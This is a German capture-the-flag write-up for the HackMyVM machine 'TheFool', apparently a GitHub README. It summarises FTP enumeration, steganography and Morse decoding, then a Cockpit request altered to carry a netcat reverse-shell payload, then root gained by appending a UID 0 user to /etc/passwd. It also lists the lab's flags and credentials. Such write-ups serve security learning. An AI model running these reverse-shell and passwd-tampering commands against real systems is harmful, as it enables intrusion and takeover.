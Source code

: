 # TheFool - HackMyVM (Hard)
 
![TheFool.png](TheFool.png)

## Übersicht

*   **VM:** TheFool
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=TheFool)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 21. Oktober 2022
*   **Original-Writeup:** https://alientec1908.github.io/TheFool_HackMyVM_Hard/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "TheFool"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Entdeckung eines offenen FTP-Servers (Port 21), der anonymen Zugriff erlaubte. Dort wurden die Dateien `note.txt` (Hinweis auf Morsecode) und `thefool.jpg` gefunden. Eine weitere versteckte Datei `.m0rse.wav` wurde ebenfalls über FTP heruntergeladen. Die Analyse der WAV-Datei (Morsecode) ergab den Base64-String `bWluZXJ2YTp0d2VldHk=`, der zu `minerva:tweety` dekodierte. Diese Credentials funktionierten für den Login in eine Cockpit-Instanz auf Port 9090. Durch Modifizieren einer Anfrage in Cockpit (z.B. via Burp Suite) wurde eine Reverse Shell als Benutzer `minerva` erlangt. Die User-Flag wurde in dessen Home-Verzeichnis gefunden. Die Privilegieneskalation zu Root erfolgte durch Ausnutzung der Linux Capability `cap_dac_override=ep`, die für `/usr/bin/bash` gesetzt war. Dies erlaubte das direkte Bearbeiten der `/etc/passwd`-Datei, um einen neuen Benutzer mit UID/GID 0 (`hacker:benni`) hinzuzufügen und so Root-Rechte zu erlangen.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `ftp` (oder `lftp`)
*   `cat`
*   `stegseek`
*   `steghide` (impliziert für Steganographie-Versuche)
*   `hydra`
*   `ssh` (versucht)
*   `echo`
*   `bash`
*   `ls`
*   `sudo`
*   `find`
*   `vi` / `nano`
*   `gcc`
*   `python3` (für Brute-Force-Skript und Shell-Stabilisierung)
*   `mv`
*   `chmod`
*   `wget`
*   `id`
*   `cd`
*   `pwd`
*   `nc` (netcat)
*   `getcap`
*   `mkpasswd`
*   `base64` (Decoder)
*   `requests` (Python-Modul)
*   `Burp Suite` (impliziert für Cockpit Exploit)
*   `Metasploit` (msf6)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "TheFool" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Service Enumeration:**
    *   IP-Findung mit `arp-scan` (`192.168.2.107`).
    *   `nmap`-Scan identifizierte offene Ports: 21 (FTP - vsftpd 3.0.3, anonymer Login erlaubt), 80 (HTTP - Nginx 1.18.0), 9090 (SSL/HTTP - später als Cockpit identifiziert).
    *   FTP-Enumeration: Download von `note.txt` (Hinweis auf Morsecode) und `thefool.jpg`.
    *   `stegseek` auf `thefool.jpg` fand mit leerer Passphrase eine Nachricht von `minerva`.
    *   Erneuter FTP-Login fand und lud die versteckte Datei `.m0rse.wav` herunter.
    *   Analyse der `.m0rse.wav` (Morsecode-Dekodierung) ergab den Base64-String `bWluZXJ2YTp0d2VldHk=`.
    *   Dekodierung zu `minerva:tweety`.

2.  **Initial Access (Cockpit Exploit zu `minerva`):**
    *   Identifizierung von Port 9090 als Cockpit-Instanz (`https://192.168.2.107:9090/`).
    *   Ein Python-Skript wurde erstellt, um Cockpit-Logins via HTTP Basic Auth zu bruteforcen (bestätigte `minerva:tweety`, obwohl dies bereits bekannt war).
    *   Login in Cockpit als `minerva:tweety`.
    *   Modifizieren einer Cockpit-internen Anfrage (z.B. via Burp Suite) durch Ersetzen von Befehlsargumenten mit einem Netcat-Reverse-Shell-Payload (`["nc","-e","/bin/bash","[Angreifer-IP]","9001"]`).
    *   Erlangung einer interaktiven Shell als Benutzer `minerva`.
    *   User-Flag `GUY6dsaiuyUIYHz` in `/home/minerva/user.txt` gelesen.

3.  **Privilege Escalation (von `minerva` zu `root` via Bash Capability):**
    *   `sudo -l` für `minerva` zeigte keine direkten Rechte. SUID-Binaries waren Standard.
    *   Metasploit `local_exploit_suggester` schlug u.a. Dirty Pipe vor, der Metasploit-Exploit scheiterte aber an Architektur-Mismatch.
    *   `getcap -r / 2>/dev/null` offenbarte, dass `/usr/bin/bash` die Capability `cap_dac_override=ep` besaß.
    *   Ausnutzung der `cap_dac_override`-Capability:
        1.  Generierung eines SHA-512-Passwort-Hashes für ein neues Passwort (z.B. `benni`) auf der Angreifer-Maschine (`mkpasswd -m sha-512`).
        2.  Als `minerva` (in der Bash mit `cap_dac_override`) wurde ein neuer Benutzer `hacker` mit UID/GID 0 und dem generierten Hash zur `/etc/passwd`-Datei hinzugefügt: `echo 'hacker:[hash]:0:0:root:/root:/bin/bash' >> /etc/passwd`.
        3.  Wechsel zum neuen Root-Benutzer mit `su hacker` und dem Passwort `benni`.
    *   Erlangung einer Root-Shell.
    *   Root-Flag `BMNB6s67tS67TSG` in `/root/.root.7x7` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Anonymer FTP-Zugriff:** Erlaubte den Download von Dateien, die Hinweise enthielten.
*   **Steganographie (Bild & Audio/Morsecode):** Verstecken von Informationen (Benutzername, Base64-kodierte Credentials) in Mediendateien.
*   **Schwache Cockpit-Credentials (via Morsecode/Base64):** Das Passwort für `minerva` wurde über mehrere Stufen der Informationsenthüllung gefunden.
*   **Cockpit Command Injection (manipulierte Anfrage):** Eine Webanwendungs-Schwachstelle in Cockpit erlaubte nach dem Login die Ausführung von Befehlen.
*   **Linux Capabilities (`cap_dac_override` auf Bash):** Eine extrem unsichere Konfiguration, die es Bash erlaubte, Dateiberechtigungen zu umgehen und somit `/etc/passwd` zu manipulieren.
*   **Manipulation von `/etc/passwd`:** Hinzufügen eines neuen Benutzers mit UID 0 zur Erlangung von Root-Rechten.

## Flags

*   **User Flag (`/home/minerva/user.txt`):** `GUY6dsaiuyUIYHz`
*   **Root Flag (`/root/.root.7x7`):** `BMNB6s67tS67TSG`

## Tags

`HackMyVM`, `TheFool`, `Hard`, `FTP`, `Steganography`, `Morse Code`, `Base64`, `Cockpit`, `Command Injection`, `Linux Capabilities`, `cap_dac_override`, `Bash`, `/etc/passwd`, `Privilege Escalation`, `Linux`, `Web`
